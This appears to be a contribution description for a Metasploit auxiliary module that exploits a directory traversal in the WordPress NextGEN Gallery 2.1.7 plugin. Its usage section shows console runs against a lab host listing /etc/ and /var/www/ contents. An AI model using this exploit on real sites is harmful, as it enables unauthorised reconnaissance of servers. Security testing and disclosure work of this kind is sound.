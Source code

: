 #### Add WordPress Plugin NextGEN Gallery Auth Directory Traversal Vulnerability.

  Application: WordPress Plugin 'NextGEN Galley' 2.1.7
  Homepage: https://wordpress.org/plugins/nextgen-gallery/
  Source Code: https://downloads.wordpress.org/plugin/nextgen-gallery.2.1.7.zip
  Active Installs (wordpress.org): 1 Million+
  References: https://wpvulndb.com/vulnerabilities/8165

#### Vulnerable packages*
        
  2.1.7

#### Module

[wp_nextgen_gallery_dir_read.rb]()
  
#### Usage:

##### Linux (Ubuntu 12.04.5 LTS):
```
 msf> auxiliary(wp_nextgen_galley_dir_read)  run

[+] 192.168.1.63:80 - File saved in: /home/espreto/.msf4/loot/20150901032100_default_192.168.1.63_nextgen.traversa_756306.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
 msf> auxiliary(wp_nextgen_galley_dir_read)  head /home/espreto/.msf4/loot/20150901032100_default_192.168.1.63_nextgen.traversa_756306.txt
[*] exec: head /home/espreto/.msf4/loot/20150901032100_default_192.168.1.63_nextgen.traversa_756306.txt

/etc/.java/
/etc/acpi/
/etc/alternatives/
/etc/apache2/
/etc/apm/
/etc/apparmor/
/etc/apparmor.d/
/etc/apport/
/etc/apt/
 msf> auxiliary(wp_nextgen_galley_dir_read)  set DIRPATH /var/www/
DIRPATH => /var/www/
 msf> auxiliary(wp_nextgen_galley_dir_read)  run

[+] 192.168.1.63:80 - File saved in: /home/espreto/.msf4/loot/20150901032225_default_192.168.1.63_nextgen.traversa_376098.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
 msf> auxiliary(wp_nextgen_galley_dir_read)  head /home/espreto/.msf4/loot/20150901032225_default_192.168.1.63_nextgen.traversa_376098.txt
[*] exec: head /home/espreto/.msf4/loot/20150901032225_default_192.168.1.63_nextgen.traversa_376098.txt

/var/www/html/
/var/www/logs/
/var/www/simple-backup/
/var/www/wp-admin/
/
/var/www/wp-includes/
 msf> auxiliary(wp_nextgen_galley_dir_read)
```
